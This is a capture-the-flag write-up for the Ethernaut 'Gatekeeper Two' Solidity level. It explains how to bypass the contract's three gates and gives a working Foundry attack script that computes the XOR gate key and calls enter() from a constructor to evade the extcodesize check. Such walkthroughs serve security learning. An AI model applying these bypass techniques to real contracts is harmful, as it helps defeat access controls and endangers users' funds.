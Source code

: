 - Goal

1. This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.

- Solution

1. Similiar to gatekeeper one, to pass `gateOne()` here wee need to call from a contract.
2. `gateTwo()` checks that the caller contract code should zero. You think its impossible? Not at all.
3. Yes, code inside contract constructor won't be stored on blockchain. So, we can call the `enter()` from our attack contract constructor.
4. To pass the `gateThree()` we need to simple XOR operation. To get the `gateKey()` we need to do `uint64(bytes8(keccak256(abi.encodePacked(msg.sender))))` XOR `type(uint64).max`

`GatekeeperTwoSolve.s.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import {GatekeeperTwo} from "../src/GatekeeperTwo.sol";

contract GatekeeperTwoSolve is Script{
    GatekeeperTwo public gateTwo = GatekeeperTwo(0x9C11F689500821ffE630e6CFea7aC45C7226040c);
    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        console.log("Entrant : ", address(gateTwo.entrant()));

        new Attack();

        console.log("Entrant : ", address(gateTwo.entrant()));
        vm.stopBroadcast();
    }
}

contract Attack{
    
    // uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max
    constructor() {
        GatekeeperTwo gateTwo = GatekeeperTwo(0x9C11F689500821ffE630e6CFea7aC45C7226040c);
        uint64 max = type(uint64).max;
        uint64 hsh = uint64(bytes8(keccak256(abi.encodePacked(address(this)))));
        bytes8 _gateKey = bytes8(max ^ hsh);

        require(gateTwo.enter(_gateKey));
    }
}
```

To run script : 

```bash
$ source .env
$ forge script script/GatekeeperTwoSolve.s.sol:GatekeeperTwoSolve --rpc-url $RPC_URL --broadcast
```
